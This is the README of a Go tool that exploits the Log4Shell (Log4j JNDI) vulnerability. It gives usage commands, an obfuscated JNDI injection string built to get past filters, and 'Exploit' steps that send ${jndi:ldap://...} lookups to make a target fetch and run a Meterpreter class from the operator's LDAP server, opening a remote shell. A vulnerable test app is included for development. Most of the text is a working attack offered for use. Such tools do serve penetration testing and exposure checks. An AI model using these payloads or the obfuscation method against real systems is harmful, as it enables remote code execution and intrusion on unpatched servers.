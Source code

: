 # Log4Shell
 * Check, exploit, obfuscate, TLS, ACME in one Go program. 
 * You don't need to install anything except develop it.

## Usage
 ### Common
   * ```Log4Shell.exe -host "1.1.1.1"```
   * ```Log4Shell.exe -host "example.com"```
 
 ### LDAPS and HTTPS server
   * ```Log4Shell.exe -host "example.com" -tls-server -tls-cert "cert.pem" -tls-key "key.pem"```
   * ```Log4Shell.exe -host "1.1.1.1" -tls-server -tls-cert "cert.pem" -tls-key "key.pem"``` (need IP SANs)
   
 ### LDAPS and HTTPS server with ACME
   * ```Log4Shell.exe -host "example.com" -auto-cert``` (must use domain name)
   
 ### Obfuscate malicious(payload) string
   ```
   Log4Shell.exe -obf "${jndi:ldap://1.1.1.1:3890/calc.class}"
   
   raw: ${jndi:ldap://1.1.1.1:3890/calc.class}
   ${${lhnK:JFL3Nl:-j}n${Yx6-A3NuXSY1nI-g38C4MN-WAFx:-d}i:${2O:bO2I5l:-l}${yeZ6-mnrv6pb:gB49n:XrYMP:-d}${jVBMSs-iOFWslRG-XuNO
   :dsCO:-a}${jYYNn:Twh80-IYXK:-p:/}${eOFbh:DW35u2:-/1.}${EkFw3Z-YsM9CIMV8:g2DHZ:-1}${Vez8Sb:Mwn:-}${yWH0V-FY9jJQZ2:TOSkrotU:
   oq1i:-}${kZ:BoJpOxRH-yFI2POt-88w2:-.1}${xbswX-VstKzXnyNzi8:jeEQKB5WRH-Ob:-}${Uyhe0-aYuAh-MdR63to:GONgfM:-.}${eA:eCPgpV-NWF
   7s:-}${mrLla-owJSvkD:n0cmdQ-V2cLx:-1:3}${CwG9:Hc:-}${xT:aiD7ho:xz:-8}90${NTSL-dSfw9NC:7OiGEp:gMQwko:-}/${TCpW:UhZI0IO8:9Jz
   5MH:WyM:-c}${Mlv:AS8TOFMM-b9I2:FqvBY:-al}${mfGW:EY1Yd48:E0KhRGfp:5CBsuC:-c}${xDw1-ZyHav9K:jPHo18i:zibmI:-.}c${ye-kZjRa5g61
   cm-Hn2yR7:-la}${Htg:cySA:-s}s}
   ```
   
## Check
 * start Log4Shell server
 * put your class file to the payload directory
 * send ```${jndi:ldap://1.1.1.1:3890/nop.class}```
 * send ```${jndi:ldaps://example.com:3890/nop.class}``` with TLS

## Exploit
 * start Log4Shell server
 * put your class file to the payload directory
 * send ```${jndi:ldap://1.1.1.1:3890/meterpreter.class}```
 * send ```${jndi:ldaps://example.com:3890/meterpreter.class}``` with TLS
 * meterpreter will open source after some time

## VulApp
 * VulApp is a vulnerable Java program that use log4j2 package.
 * You can use it for develop this project easily.
 * ```java -jar vulapp.jar ${jndi:ldap://127.0.0.1:3890/calc.class}```

## Help
  ```
  :::      ::::::::   ::::::::      :::     ::::::::  :::    ::: :::::::::: :::      :::
  :+:     :+:    :+: :+:    :+:    :+:     :+:    :+: :+:    :+: :+:        :+:      :+:
  +:+     +:+    +:+ +:+          +:+ +:+  +:+        +:+    +:+ +:+        +:+      +:+
  +#+     +#+    +:+ :#:         +#+  +:+  +#++:++#++ +#++:++#++ +#++:++#   +#+      +#+
  +#+     +#+    +#+ +#+   +#+# +#+#+#+#+#+       +#+ +#+    +#+ +#+        +#+      +#+
  #+#     #+#    #+# #+#    #+#       #+#  #+#    #+# #+#    #+# #+#        #+#      #+#
  ######## ########   ########        ###   ########  ###    ### ########## ######## ########

                                                        https://github.com/For-ACGN/Log4Shell

Usage of Log4Shell.exe:
  -auto-cert
        use ACME client to sign certificate
  -host string
        server IP address or domain name (default "127.0.0.1")
  -http-addr string
        http server address (default ":8080")
  -http-net string
        http server network (default "tcp")
  -ldap-addr string
        ldap server address (default ":3890")
  -ldap-net string
        ldap server network (default "tcp")
  -obf string
        obfuscate malicious(payload) string
  -payload string
        payload(java class) directory (default "payload")
  -tls-cert string
        tls certificate file path (default "cert.pem")
  -tls-key string
        tls private key file path (default "key.pem")
  -tls-server
        enable ldaps and https server
  ```

## Screenshot
![](https://github.com/For-ACGN/Log4Shell/raw/main/screenshot.png)
